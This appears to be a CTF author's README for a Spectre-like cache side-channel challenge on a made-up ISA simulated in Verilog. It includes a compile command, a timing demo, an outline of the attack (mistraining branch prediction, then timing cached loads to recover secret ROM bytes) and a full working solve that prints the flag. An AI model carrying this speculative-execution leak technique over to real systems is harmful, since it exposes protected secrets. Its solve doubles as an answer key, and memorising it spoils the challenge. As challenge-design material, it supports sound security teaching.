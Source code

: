 Compile with: 
```bash
iverilog -g2012 -o nco ncore_tb.v
```
Try this program:
```
MOVFSI R0 R1 1
INC R3
INC R3
RDTM R1
MOVF R0 108
RDTM R1
MOVF R0 110
RDTM R1
MOVF R0 110
RDTM R1
```
It shows how cached accesses take 4 ticks, while uncached takes 8. I think it basically works, we just need a solve to make sure...

## The outline
Fool branch prediction to speculatively do a _MOVFSI R1,R0,IMM_ (which WONT get executed, otherwise you lock the core) now the result is in cache, try different Xs to load _MOVF X_ and time them, if it takes 4 clock, X is the value in _SAFE\_ROM\[IMM\]_.

## Epistemological Commentary
What does a challenge measure? How can we measure the skill of shellcoding? Say for a typical pwn problem, we are almost always measuring multiple skills and knowledge: familiarity with the underlying arch (x86/arm/etc) with the type of vuln, with the tools of the trade and so on. Then a curious mind may posit that we cannot ever distinguish a skill in isolation from other knowledge with a challenge. </br> 

I challenge this assumption, what if the ISA was not a known ISA? What if there wasn't much tools could do? In this challenge, it would be rather easy to find out it's supposed to be a cache side-channel, it's really so on the nose. Next would be to hatch a plan and shellcode the idea to fruition, with no known ISA and no specific tool able to help, it is kind of a pure challenge of shellcoding in some made-up ISA you just saw. It is not easy, and prone to mistakes, but give the verilog source, it also would demonstrate the value of debugging, and the tool is VVP/IVERILOG, not something that people would usually be doing in every CTF, with an exotic ting to it. & finally there is a cool factor, because of all the hype SPECTRE got, and hopefully people would come away with a sense of accomplishment after solving this.

## Solve Works!
It ain't pretty. It ain't pretty at all. But now it works, the following is a solve which does spit out the flag: 
```
FLUSH
INC R1
JGT R0 R1 0
JGT R0 R1 0
JGT R0 R1 0
JGT R0 R1 0
JGT R1 R0 16
MOVFSI R0 R3 0
RDTM R1
MOVFU R2 0
RDTM R2
SUB R2 R2 R1
MOVFU R1 58
JEQ R2 R1 34
INC R0
MOVT R0 19
JMP 16
MOVT R0 200
MOVF R1 35
INC R1
MOVT R1 35
MOVF R1 15
INC R1
MOVT R1 15
MOVF R1 56
MOVF R0 56
MOVT R0 19
JMP 0
00 00
04 00
```

## TODO
maybe clean up code? and add more verbose overview.
